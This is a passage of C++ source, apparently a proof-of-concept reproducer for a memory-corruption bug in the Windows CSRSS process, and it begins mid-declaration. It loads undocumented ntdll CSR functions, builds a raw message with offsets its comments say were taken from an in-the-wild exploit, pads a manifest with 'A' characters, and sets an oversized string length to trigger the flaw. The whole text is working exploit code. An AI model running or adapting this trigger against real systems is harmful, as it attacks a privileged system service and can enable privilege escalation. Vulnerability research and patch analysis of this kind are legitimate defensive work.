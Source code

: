 ```c++
                                                       PCSTR String,
                                                       ULONG Length,
                                                       ULONG MaximumLength,
                                                       PSTR OutputString);
f_CsrCaptureMessageString CsrCaptureMessageString;

NTSTATUS CaptureUnicodeString(LPVOID CaptureBuffer, PSTR OutputString,
                              PCWSTR String, ULONG Length = 0) {
  if (Length == 0) {
    Length = lstrlenW(String);
  }
  return CsrCaptureMessageString(CaptureBuffer, (PCSTR)String, Length * 2,
                                 Length * 2 + 2, OutputString);
}

int main() {
  HMODULE Ntdll = LoadLibrary(L"Ntdll.dll");
  CsrAllocateCaptureBuffer = (f_CsrAllocateCaptureBuffer)GetProcAddress(
      Ntdll, "CsrAllocateCaptureBuffer");
  CsrClientCallServer =
      (f_CsrClientCallServer)GetProcAddress(Ntdll, "CsrClientCallServer");
  CsrCaptureMessageString = (f_CsrCaptureMessageString)GetProcAddress(
      Ntdll, "CsrCaptureMessageString");

  char Message[0x220];
  memset(Message, 0, 0x220);

  PVOID CaptureBuffer = CsrAllocateCaptureBuffer(4, 0x300);

  std::string Manifest = MANIFEST_CONTENTS;
  Manifest.replace(Manifest.find('@'), 1, 0x2000, 'A');

  // There's no public definition of the relevant CSR_API_MSG structure.
  // The offsets and values are taken directly from the exploit.
  *(uint32_t*)(Message + 0x40) = 0xc1;
  *(uint16_t*)(Message + 0x44) = 9;
  *(uint16_t*)(Message + 0x59) = 0x201;

  // CSRSS loads the manifest contents from the client process memory;
  // therefore, it doesn't have to be stored in the capture buffer.
  *(const char**)(Message + 0x80) = Manifest.c_str();
  *(uint64_t*)(Message + 0x88) = Manifest.size();
  *(uint64_t*)(Message + 0xf0) = 1;

  CaptureUnicodeString(CaptureBuffer, Message + 0x48, NULL_BYTE_STR, 2);
  CaptureUnicodeString(CaptureBuffer, Message + 0x60, MANIFEST_NAME);
  CaptureUnicodeString(CaptureBuffer, Message + 0xc8, PATH);
  CaptureUnicodeString(CaptureBuffer, Message + 0x120, MODULE);

  // Triggers the issue by setting ApplicationName.MaxLength to a large value.
  *(uint16_t*)(Message + 0x122) = 0x8000;

  CsrClientCallServer(Message, CaptureBuffer, 0x10017, 0xf0);
}
```
